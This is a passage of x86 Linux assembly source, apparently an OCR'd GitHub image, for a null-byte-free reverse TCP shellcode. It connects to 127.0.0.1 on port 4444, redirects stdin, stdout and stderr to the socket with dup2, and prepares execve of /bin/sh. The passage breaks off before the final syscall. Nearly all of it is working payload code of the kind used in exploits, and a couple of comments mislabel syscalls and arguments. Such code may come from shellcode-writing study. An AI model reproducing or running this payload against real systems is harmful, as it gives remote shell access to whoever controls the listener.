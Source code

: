 ```nasm
	; pushing the address struct arguments
	push esi		; pushing 0 (null)
	mov ecx, 0x06050584	; moving the 127.0.0.1 address into ECX (reverse order, becouse of nulls, we have to add value 5 in every place...
	sub ecx, 0x05050505	; ... and then substract value 5 from every place
	push ecx		; pushing TARGET address to the stack
	push word 0x5c11	; PORT = 4444 (change reverse hex value for different port)
	push word 2		; AF_INET = 2
	mov ecx, esp		; directing the stack pointer to address struct arguments
	
	; pushing the sys_connect arguments in reverse order (int reverse_socket, const struct sockaddr *addr, socklen_t addrlen) 
	push 16			; socklen_t addrlen (size) = 16
	push ecx		; const struct sockaddr *addr - stack pointer with struct arguments	
	push edx		; reverse_socket pointer

	mov ecx, esp		; directing the stack pointer to sys_bind() function arguments

	int 128			; syscall execution
	
sys_dup2:
	; {C code} --> dup2(sock,2);
        ; {C code} --> dup2(sock,1);
        ; {C code} --> dup2(sock,0);

	; syscall definition
	mov al, 63		; syscall - dup2
	
	mov ebx, edx		; overwriting the reverse_socket pointer
	xor ecx, ecx		; STDIN - 0 (null)

	int 128			; syscall execution

	; syscall definition
	mov al, 63		; syscall - dup2
	mov cl, 1		; STDOUT - 1
	
	int 128			; syscall execution

	; syscall definition
	mov al, 63		; syscall - dup2
	mov cl, 2		; STDERR - 2

	int 128			; syscall execution

sys_execve:
	; {C code} --> execve("/bin/sh",NULL,NULL);

	; syscall definition
	mov al, 11		; syscall - execve

	; pushing the sys_execve string argument
	xor esi, esi
	push esi		; pushing 0 (null)

	push 0x68732f6e		; pushing "n/sh"
	push 0x69622f2f		; pushing "//bi"

        ; pushing the sys_execve arguments (const char *filename, char *const argv[], char *const envp[])
	mov ebx, esp		; directing the stack pointer to sys_execve() string argument
	xor ecx, ecx		; char *const envp[] = 0 (null)
	xor edx, edx		; char *const argv[] = 0 (null)
```